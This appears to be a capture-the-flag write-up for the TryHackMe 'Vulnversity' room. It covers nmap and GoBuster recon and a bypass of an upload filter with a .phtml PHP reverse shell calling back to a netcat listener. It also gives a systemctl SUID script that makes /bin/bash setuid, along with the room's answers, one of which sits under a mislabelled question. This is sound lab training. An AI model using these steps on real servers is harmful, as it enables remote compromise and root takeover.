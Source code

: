 ```yaml
---
title: Try Hack Me - Vulnversity - Learning
date: 2022-12-22
tags: [Vulnversity,THM,CTF]
image: vuln.png
---
```

Learn about active recon, web app attacks and privilege escalation.
---

**Machine IP=YOUR MACHINE IP**

### Task 1 - Deploy the Machine

- Need to Deploy the Machine and connect to Open Vpn. If you do not know how to connect to Open VPN.
Look at [OpenVPN](https://tryhackme.com/room/openvpn) 

### Task 3 - Locating directories uning GoBuster
- Gather information about this machine using a network scanning tool called nmap. 
Check out the [Nmap](https://tryhackme.com/room/furthernmap) room for more on this!

#### Questions

1. There are many nmap [cheatsheets](https://cdn.comparitech.com/wp-content/uploads/2019/06/Nmap-Cheat-Sheet-1.webp) online that you can use too. - **Answer** NO Answer, just click **Completed** 
2. Scan the box, how many ports are open? **Answer** **6**
3. What version of the squid proxy is running on the machine? - **Answer** **3.5.12**
4. What version of the squid proxy is running on the machine? - **Answer** **400**
5. Using the nmap flag -n what will it not resolve? - **Answer** **DNS**
6. What is the most likely operating system this machine is running? - **Answer** **Ubuntu**
7. What port is the web server running on? - **Answer** **3333**
8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background) - **Answer** NO Answer, just click **Completed** 

### Task 3 - Locating directories using GoBuster
- Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.

- Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.
GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.

#### Questions
1. Now lets run GoBuster with a wordlist: gobuster dir -u http://<ip>:3333 -w <word list location> - **Answer** NO Answer, just click **Completed** 
2. What is the directory that has an upload form page? - **Answer** **/internal/**

### Task 4 Compromise the webserver
Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

#### Questions
1. What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out. - **Answer** **.php** 

<!-- Need to Add a Image --!>

2. To identify which extensions are not blocked, we're going to fuzz the upload form.
To do this, we're going to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please completeour [BurpSuite](https://tryhackme.com/room/rpburpsuite) room first. - **Answer** NO Answer, just click **Completed**

<!-- Need to Add a Image --!>

3. Run this attack, what extension is allowed? - **Answer** **.phtml**


##### Reverse PHP Shell

Now we know what extension we can use for our payload we can progress.

We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:

- Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

- Rename this file to php-reverse-shell.phtml

- We're now going to listen to incoming connections using netcat. Run the following command: nc -lvnp 1234

- Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload

4. You should see a connection on your netcat session **Answer** NO Answer, just click **Completed** 

<!-- Need to Add a Image --!>

5. What is the name of the user who manages the webserver **Answer** **bill**

6. What is the user flag **Answer** **You can find it as a user Flag**

### Task 5 Privilege Escalation
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

[GTFOBins](https://gtfobins.github.io/) is the best tool for bypass local security restrictions but to bypass the systemctl binary you need to modify this script to work with SystemCTL
<code>
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
<code>

#### Questions
1. On the system, search for all SUID files. What file stands out? **Answer** **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt) **Answer**  **You can find it as a root Flag**



{{< youtube hvYWCegfEZs>}} 


